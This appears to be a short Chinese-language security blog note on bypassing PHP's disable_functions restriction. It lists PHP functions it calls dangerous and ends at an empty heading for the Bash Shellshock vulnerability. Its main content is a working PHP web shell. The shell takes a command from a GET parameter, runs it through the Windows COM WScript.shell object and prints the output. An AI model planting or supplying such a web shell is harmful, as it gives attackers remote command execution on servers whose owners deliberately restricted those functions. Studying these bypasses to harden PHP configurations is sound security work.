 date: 2020-06-30
categories:
- web
tags:
- php
title: bypass_disable_function_open_basedir
---
# bypass disable_function



## 危险函数/类

```
FFI
COM
exec
assert
eval
system
ini_set/ini_alter
putenv
imap_open
pcntl_exec
win_shell_execute
dl
```



## 利用Windows系统组件COM绕过

利用条件：

```
extension=php_com_dotnet.dll
com.allow_dcom = true
wshom.ocx 存在
```



```php
$command = $_GET['cmd'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
```





## GNU Bash 环境变量远程命令执行漏洞 CVE-2014-6271
